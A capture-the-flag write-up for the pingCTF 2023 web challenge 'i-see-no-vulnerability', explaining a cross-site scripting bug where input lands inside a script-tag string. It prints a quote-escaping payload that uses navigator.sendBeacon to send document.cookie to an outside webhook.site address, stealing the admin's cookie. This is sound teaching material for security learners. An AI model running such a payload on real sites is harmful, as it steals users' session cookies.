 # Write-up: i-see-no-vulnerability

## Category: web

## Author tomek7667

Get yourself a webhook site. You can use [webhook.site](https://webhook.site/).

My webhook: `https://webhook.site/#!/124ee02c-b0c7-4c9b-ba48-a5a99f002679/`

After inspection on the files, we can see that it's a clearly a XSS challenge, and we need to report a site to an admin to get the flag which is stored in a cookie. There is sanitization used, however we can inject our payload in the `<script>` tag where the logic for displaying the GIF is implemented:

Before:

```html
<script>
	const text = "{{Our input}}";
	if (text.length === 0) {
		vision.innerHTML = "<img src='/i-see-nothing.gif' />";
	}
</script>
```

So when creating the payload we just need to escape the quotes to make the JS still execute. Example payload that escapes the quotes and sends the cookie to our webhook:

```
"; navigator.sendBeacon("https://webhook.site/124ee02c-b0c7-4c9b-ba48-a5a99f002679", document.cookie); "
```

After:

```html
<script>
	const text = "";
	navigator.sendBeacon(
		"https://webhook site/124ee02c-b0c7-4c9b-ba48-a5a99f002679",
		document.cookie
	);
	("");
	if (text.length === 0) {
		vision.innerHTML = "<img src='/i-see-nothing.gif' />";
	}
</script>
```

The only thing to do is to now create an image with the payload inside. As this is only JS code, and not HTML, the XSS sanitizer will assume the user input is valid, even though it's not, and that's why it's not going to sanitize it.

Creating the actual image with the payload inside might be a little bit tricky, but as the challenge is easily locally deployable, the rate-limit for trial and error shouldn't be a problem. For me, the solving image is:

![Solving image](solution.png)

https://webhook.site/#!/735b11b1-9924-4b89-b967-7db73a9df3d2/19a6b97e-eef9-4359-8c71-32c36a5f6736/1


https://github.com/daffainfo/ctf-writeup/blob/main/pingCTF%202023/i-see-no-vulnerability


